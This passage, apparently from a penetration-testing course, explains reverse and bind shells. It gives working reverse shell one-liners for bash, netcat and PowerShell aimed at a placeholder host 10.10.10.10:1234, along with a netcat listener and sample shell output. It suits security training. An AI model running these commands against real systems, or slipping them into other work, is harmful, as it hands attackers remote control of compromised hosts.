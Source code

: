 #### Reverse Shell Command

The command we execute depends on what operating system the compromised host runs on, i.e., Linux or Windows, and what applications and commands we can access. The [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) page has a comprehensive list of reverse shell commands we can use that cover a wide range of options depending on our compromised host.

Certain reverse shell commands are more reliable than others and can usually be attempted to get a reverse connection. The below commands are reliable commands we can use to get a reverse connection, for `bash` on Linux compromised hosts and `Powershell` on Windows compromised hosts:

	bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

	powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

We can utilize the exploit we have over the remote host to execute one of the above commands, i.e., through a Python exploit or a Metasploit module, to get a reverse connection. Once we do, we should receive a connection in our `netcat` listener:

	nc -lvnp 1234

```text
listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

As we can see, after we received a connection on our `netcat` listener, we were able to type our command and directly get its output back, right in our machine.

A `Reverse Shell` is handy when we want to get a quick, reliable connection to our compromised host. However, a `Reverse Shell` can be very fragile. Once the reverse shell command is stopped, or if we lose our connection for any reason, we would have to use the initial exploit to execute the reverse shell command again to regain our access.

---

### Bind Shell

Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.

Once we execute a `Bind Shell Command`, it will start listening on a port on the remote host and bind that host's shell, i.e., `Bash` or `PowerShell`, to that port. We have to connect to that port with `netcat`, and we will get control through a shell on that system.

---

